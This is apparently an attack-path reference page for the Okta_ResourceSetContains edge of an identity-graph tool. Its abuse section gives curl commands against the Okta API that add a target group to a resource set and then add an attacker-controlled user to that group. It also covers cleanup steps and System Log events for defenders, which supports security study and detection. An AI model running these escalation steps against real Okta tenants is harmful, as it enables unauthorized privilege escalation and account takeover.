

## General Information

The traversable Okta_ResourceSetContains edges represent the membership relationships between resource sets and their member entities in Okta:


```mermaid
graph LR
    rs1("Okta_ResourceSet Sales Department Resources")
    u1("Okta_User john\@contoso.com")
    u2("Okta_User alice\@contoso.com")
    g1("Okta_Group Sales Team")
    a1("Okta_Application GitHub")
    d1("Okta_Device John's MacBook")
    rs1 -- Okta_ResourceSetContains --> u1
    rs1 -- Okta_ResourceSetContains --> g1
    rs1 -- Okta_ResourceSetContains --> a1
    rs1 -- Okta_ResourceSetContains --> d1
    u2 -- Okta_MemberOf --> g1
    rs1 -- Okta_ResourceSetContains --> u2
```

Note that users can also be members of resource sets indirectly through group memberships. The intermediate group will not appear in the graph, but the user membership will be resolved by the collector.

## Abuse Info

`Okta_ResourceSetContains` is a custom-role scope edge. It does not grant privileges by itself. It becomes abusable when an attacker controls a principal bound to the source resource set through a custom role, or when an attacker can modify the source resource set so existing custom-role bindings gain authority over a new destination resource.

To abuse this edge when controlling a principal bound to the source resource set:

1. Follow incoming `Okta_ScopedTo` to identify the role assignment that targets the source resource set.
2. Follow `Okta_HasRole` from the assigned principal to identify the custom role.
3. Inspect the custom role permissions to determine what can be done to the destination resource.
4. Authenticate as the assigned user, as a member of the assigned group, or as the assigned service client.
5. Apply the custom role's permissions to the destination resource. Examples include resetting a destination user's password, resetting factors, adding members to a destination group, managing a destination application, or reading scoped application client secrets.
6. Continue along the derived traversable edge that represents the permission, such as `Okta_ResetPassword`, `Okta_ResetFactors`, `Okta_AddMember`, `Okta_ManageApp`, or `Okta_ReadClientSecret`.

To abuse this edge when controlling the source resource set configuration:

1. Identify the existing custom-role bindings that point at the source resource set.
2. Determine which permissions those bindings grant.
3. Add the destination object or contained-resource URL to the resource set.
4. Re-authenticate or mint a fresh token as the bound principal so scope is recalculated.
5. Use the newly scoped permission against the destination object.

Using the Admin Console:

1. Sign in as an administrator who can manage custom admin roles or resource sets.
2. Open **Security** > **Administrators** and review custom role assignments.
3. Open the source resource set and record its current resources.
4. Add only the destination resource needed for the path, such as a specific group, group users collection, application, user, authorization server, identity provider, policy, or device.
5. Authenticate as a principal bound to the source resource set.
6. Perform the custom-role action against the destination resource.
7. Verify the resulting path, such as a new group member, managed app setting, reset user, or readable client secret.

Using the Okta API:

1. Set variables for the resource set, target resource, and a controlled user for a common `Okta_AddMember` follow-on action.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export RESOURCE_SET_ID="iamo..."
    export CUSTOM_ROLE_ID="cr0..."
    export TARGET_GROUP_ID="00g..."
    export CONTROLLED_USER_ID="00u..."
    export TARGET_RESOURCE_URL="$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users"
    ```

2. Inspect the source resource set and existing custom-role bindings.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/iam/resource-sets/$RESOURCE_SET_ID" \
      | jq '{id, label, description, lastUpdated}'

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/iam/resource-sets/$RESOURCE_SET_ID/bindings" \
      | jq '.'
    ```

3. Inspect the custom role permissions attached to the resource set.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/iam/roles/$CUSTOM_ROLE_ID/permissions" \
      | jq -r '.[] | [.label, .status] | @tsv'
    ```

4. Add the destination resource to the source resource set. Use an Okta REST URL or ORN that matches the permission. For group membership management, add the group's `/users` contained-resource URL.

    ```bash
    curl -sS -X PATCH \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d "{\"additions\":[\"$TARGET_RESOURCE_URL\"]}" \
      "$OKTA_ORG/api/v1/iam/resource-sets/$RESOURCE_SET_ID/resources" \
      | jq '{id, label, lastUpdated}'
    ```

    A successful request returns `200 OK` with the updated resource set.

5. Verify the destination resource is a member of the source resource set and capture its resource ID for cleanup.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/iam/resource-sets/$RESOURCE_SET_ID/resources" \
      | tee /tmp/okta-resource-set-resources.json

    export TEMP_RESOURCE_ID="$(jq -r --arg href "$TARGET_RESOURCE_URL" '.resources[]? | select(.orn == $href or ._links.self.href == $href) | .id' /tmp/okta-resource-set-resources.json | head -n1)"
    jq -r --arg id "$TEMP_RESOURCE_ID" '.resources[]? | select(.id == $id) | [.id, .orn, ._links.self.href] | @tsv' /tmp/okta-resource-set-resources.json
    ```

6. Use the custom-role permission against the destination. This example adds a controlled user to the scoped group.

    ```bash
    curl -i -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users/$CONTROLLED_USER_ID"
    ```

7. Verify the follow-on access.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users?limit=200" \
      | jq -r '.[] | select(.id == env.CONTROLLED_USER_ID) | [.id, .profile.login] | @tsv'
    ```

## Cleanup after Abuse

Cleanup for `Okta_ResourceSetContains` removes any temporary destination resources added to the source resource set, restores the resource set's original membership, and reverses the admin action performed against the destination object.

Cleanup using Admin Console:

1. Open the source resource set used by the custom role assignment.
2. Remove the temporary destination resource, such as the group users collection, application, user, identity provider, policy, authorization server, or device.
3. Restore any excluded resources or resource conditions that were changed.
4. Remove downstream access created through the temporary scope, such as group membership, app assignment, reset artifacts, client secrets, or application configuration changes.
5. Revoke sessions and tokens for principals that received access through the temporary resource-set scope.
6. Verify the source resource set no longer contains the destination resource and the derived permission edge no longer reaches it.

Cleanup using API:

1. Resolve the temporary resource ID if it was not captured during abuse.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/iam/resource-sets/$RESOURCE_SET_ID/resources" \
      | tee /tmp/okta-resource-set-resources-cleanup.json

    export TEMP_RESOURCE_ID="$(jq -r --arg href "$TARGET_RESOURCE_URL" '.resources[]? | select(.orn == $href or ._links.self.href == $href) | .id' /tmp/okta-resource-set-resources-cleanup.json | head -n1)"
    ```

2. Remove the temporary resource from the source resource set.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/iam/resource-sets/$RESOURCE_SET_ID/resources/$TEMP_RESOURCE_ID"
    ```

    A successful deletion returns `204 No Content`.

3. Reverse the downstream group membership used in the example path.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users/$CONTROLLED_USER_ID"
    ```

4. Revoke sessions for the controlled user if the temporary resource-set scope granted interactive access.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$CONTROLLED_USER_ID/sessions?oauthTokens=true"
    ```

5. Verify the resource and downstream access are gone.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/iam/resource-sets/$RESOURCE_SET_ID/resources" \
      | jq -r --arg href "$TARGET_RESOURCE_URL" '.resources[]? | select(.orn == $href or ._links.self.href == $href)'

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users?limit=200" \
      | jq -r '.[] | select(.id == env.CONTROLLED_USER_ID)'
    ```

## Opsec Considerations

Adding a sensitive resource to an existing resource set can expand delegated admin power without changing the custom role's name. Monitor `iam.resourceset.resources.add`, `iam.resourceset.resources.delete`, `iam.resourceset.resources.update`, `iam.resourceset.bindings.add`, `iam.resourceset.bindings.delete`, and the follow-on user, group, app, credential, or policy events created by the bound principal.

Resource set resources can represent contained collections, such as `groups/{groupId}/users`. Defenders should review both the object added to the resource set and the first administrative action performed after the change.

## References

- [Okta Resource Sets API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/RoleCResourceSet/)
- [Okta Resource Set Resources API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/RoleCResourceSetResource/)
- [Okta Role Resource Set Bindings API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/RoleDResourceSetBinding/)
- [Okta roles guide](https://developer.okta.com/docs/api/openapi/okta-management/guides/roles/)
- [Okta custom role permissions](https://developer.okta.com/docs/api/openapi/okta-management/guides/permissions/)
- [Okta Group API: Assign a user to a group](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Group/#tag/Group/operation/assignUserToGroup)
- [Okta User Sessions API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserSessions/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [Eli Guy: Okta RBAC Attacks](https://xmcyber.com/blog/okta-rbac-attacks/)
